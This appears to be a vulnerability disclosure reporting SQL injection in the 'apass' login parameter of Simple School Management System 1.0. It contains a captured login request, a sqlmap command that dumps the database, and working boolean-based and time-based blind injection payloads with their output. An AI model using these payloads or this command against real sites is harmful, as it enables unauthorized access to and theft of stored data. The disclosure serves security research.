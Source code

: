 # Simple School Managment System - SQL Injection - 2
+ **Exploit Title:** Simple School Managment System - SQL Injection - 2
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple School Managment System 1.0 allows SQL Injection via the 'apass' parameter at "School/index.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/School/index.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /School/index.php HTTP/1.1
Host: localhost
Content-Length: 30
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/School/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hidk6npo6f802og8sqcir2veul
Connection: close

aname=selam&apass=selam&login=

```

+ Use sqlmap to exploit. In sqlmap, use 'apass' parameter to dump the database.
```
sqlmap -r r.txt -p apass --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: apass (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: aname=selam&apass=selam' OR NOT 3577=3577-- Puvb&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: aname=selam&apass=selam' AND (SELECT 1829 FROM (SELECT(SLEEP(5)))ZApL)-- UKjz&login=
---
[04:26:20] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[04:26:20] [INFO] fetching current database
[04:26:20] [INFO] resumed: school
current database: 'school'

```
+ current database: `school`

![Ekran görüntüsü 2024-02-01 123032](https://github.com/tubakvgc/CVEs/assets/74067343/18f8e09f-5035-4dd2-b1a4-51116c918484)
